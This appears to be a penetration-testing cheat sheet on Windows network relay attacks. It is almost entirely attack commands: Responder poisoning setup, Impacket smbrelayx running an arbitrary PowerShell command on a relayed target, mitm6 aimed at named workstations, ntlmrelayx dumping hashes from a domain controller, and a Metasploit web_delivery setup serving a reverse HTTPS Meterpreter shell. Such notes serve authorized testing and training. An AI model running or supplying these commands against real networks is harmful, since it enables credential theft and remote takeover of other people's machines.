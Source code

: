 ### Setup Responder ###

Modify the Responder.conf file, change the values:

SMB = Off
HTTP = Off
HTTPS = Off

Save the file.

You can run Responder by typing python Responder.py:

```
python Responder.py -i <localip>
```

### Setup Impacket (SMB Relay)

Launch impacket smbrelayx using the following:

```
smbrelayx.py -h <hostoftarget> -c "<powershell command>"
```


# mitm6
https://github.com/fox-it/mitm6

1. target two workstations on `<domain>.<tld>`
```
mitm6 -d <domain>.<tld> -hw w7desk0,w7desk1 -i eth0
```

# ntlmrelayx

included with impacket
```
./ntlmrelayx.py -of hashes.txt --target ldaps://<domain_controller_id>.<domain>.<tld>
```

# SMB Relay Attack

References:
[https://www.youtube.com/watch?v=4WP227MuIlk Exploitation with SMB Relay]
Prerequisites:

[https://github.com/SpiderLabs/Responder Responder]
[https://github.com/SpiderLabs/Responder Impacket]
[https://github.com/rapid7/metasploit-framework Metasploit Framework]

### Setup Metasploit Web Download ###

```
msfconsole
msf> use exploit/multi/script/web_delivery
msf> set TARGET 2
msf> set URIPATH /
msf> set payload windows/meterpreter/reverse_https
msf> set LHOST <localip>
msf> set LPORT <80/8080/8888>
msf> set exitonsession false
msf> exploit -j -z
```
